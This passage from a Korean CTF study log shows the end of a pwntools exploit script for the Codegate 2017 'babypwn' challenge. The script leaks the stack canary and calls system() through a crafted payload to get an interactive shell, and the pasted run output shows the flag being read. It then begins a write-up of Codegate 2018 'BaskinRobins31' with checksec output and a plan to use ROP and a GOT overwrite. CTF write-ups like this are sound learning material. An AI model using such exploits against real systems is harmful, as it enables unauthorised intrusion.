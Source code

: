 ```python
payload += p32(len(command)+1)
payload += p32(0)

payload += p32(system_plt)
payload += "a" * 4
payload += p32(bss)

p.sendlineafter("> ", "1")
p.sendlineafter(": ", payload)

# Exit -> RET 
p.sendlineafter("> ", "3")

p.sendline(command)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/Codagate 2017$ python exploit.py 
[+] Opening connection to 141.164.52.207 on port 8181: Done
[*] '/home/pocas/pwn/Codagate 2017/babypwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Canary : 0x72c6c200
[*] bss : 0x804b1b4
[*] Closed connection to 141.164.52.207 port 8181
[+] Opening connection to 141.164.52.207 on port 8181: Done
[*] Switching to interactive mode
$ cat flag
FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}
$  
```

> FLAG : FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}

---
## PWN D+4 (2021.01.28)<br>

---
Codagate 2018 Challenge : BaskinRobins31

<strong>오늘은 64 Bit ROP 익스를 공부하고, 좀 쉬운 문제가 없나 보다가 코게 2018에서 나온 BaskinRobins31라는 문제가 있어 풀어보겠습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/codegate/2018/BaskinRobins31$ checksec --file=BaskinRobins31
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0		3		BaskinRobins31
pocas@pocas-VirtualBox:~/pwn/codegate/2018/BaskinRobins31$ 
```
<strong>checksef을 이용해서 보호 기법을 확인해보니 RELRO와 NX Bit가 걸려있는 것을 볼 수 있습니다. NX Bit를 우회하기 위해 ROP를 이용해 익스를 진행하면 될 거 같고, Partial RELRO이기 때문에 GOT Overwrite가 가능합니다.</strong><br>

